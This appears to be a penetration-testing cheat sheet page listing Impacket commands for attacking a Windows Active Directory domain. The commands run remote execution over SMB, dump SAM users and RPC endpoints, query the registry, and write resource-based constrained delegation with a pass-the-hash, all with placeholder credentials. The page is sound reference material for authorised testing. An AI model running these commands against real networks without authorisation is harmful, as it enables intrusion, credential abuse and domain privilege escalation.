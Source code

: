[python3 smbexec.py test.local/john:password123@10.10.10.1](https://wadcoms.github.io/wadcoms/Impacket-SMBExec/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Impacket-SMBExec/#Exploitation)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-SMBExec/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Impacket-SMBExec/#Password)
 -   [SMB](https://wadcoms.github.io/wadcoms/Impacket-SMBExec/#SMB)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-SMBExec/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-SMBExec/#Windows)

[python3 smbclient.py test.local/john:password123@10.10.10.1](https://wadcoms.github.io/wadcoms/Impacket-SMBClient/)
-   [Enumeration](https://wadcoms.github.io/wadcoms/Impacket-SMBClient/#Enumeration)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-SMBClient/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Impacket-SMBClient/#Password)
 -   [SMB](https://wadcoms.github.io/wadcoms/Impacket-SMBClient/#SMB)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-SMBClient/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-SMBClient/#Windows)

[python3 samrdump.py test.local/john:password123@10.10.10.1](https://wadcoms.github.io/wadcoms/Impacket-SAMRDump/)
-   [Enumeration](https://wadcoms.github.io/wadcoms/Impacket-SAMRDump/#Enumeration)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-SAMRDump/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Impacket-SAMRDump/#Password)
 -   [RPC](https://wadcoms.github.io/wadcoms/Impacket-SAMRDump/#RPC)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-SAMRDump/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-SAMRDump/#Windows)

[python3 reg.py test.local/john:password123@10.10.10.1 query -keyName HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s](https://wadcoms.github.io/wadcoms/Impacket-Reg/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Impacket-Reg/#Exploitation)
 -   [Persistence](https://wadcoms.github.io/wadcoms/Impacket-Reg/#Persistence)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-Reg/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Impacket-Reg/#Password)
 -   [SMB](https://wadcoms.github.io/wadcoms/Impacket-Reg/#SMB)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-Reg/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-Reg/#Windows)

[python3 rpcdump.py test.local/john:password123@10.10.10.1](https://wadcoms.github.io/wadcoms/Impacket-RPCDump/)
-   [Enumeration](https://wadcoms.github.io/wadcoms/Impacket-RPCDump/#Enumeration)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-RPCDump/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Impacket-RPCDump/#Password)
 -   [RPC](https://wadcoms.github.io/wadcoms/Impacket-RPCDump/#RPC)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-RPCDump/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-RPCDump/#Windows)

[python3 rbcd.py -action write -delegate-to "DC01$" -delegate-from "EVILCOMPUTER$" -dc-ip 10.10.10.1 -hashes :A9FDFA038C4B75EBC76DC855DD74F0DA test.local/john](https://wadcoms.github.io/wadcoms/Impacket-RBCD/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Impacket-RBCD/#Exploitation)
 -   [Persistence](https://wadcoms.github.io/wadcoms/Impacket-RBCD/#Persistence)
 -   [Privilege Escalation](https://wadcoms.github.io/wadcoms/Impacket-RBCD/#PrivEsc)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-RBCD/#Username)
 -   [Hash](https://wadcoms.github.io/wadcoms/Impacket-RBCD/#Hash)
 -   [SMB](https://wadcoms.github.io/wadcoms/Impacket-RBCD/#SMB)
 -   [Kerberos](https://wadcoms.github.io/wadcoms/Impacket-RBCD/#Kerberos)
 -   [LDAP](https://wadcoms.github.io/wadcoms/Impacket-RBCD/#LDAP)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-RBCD/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-RBCD/#Windows)
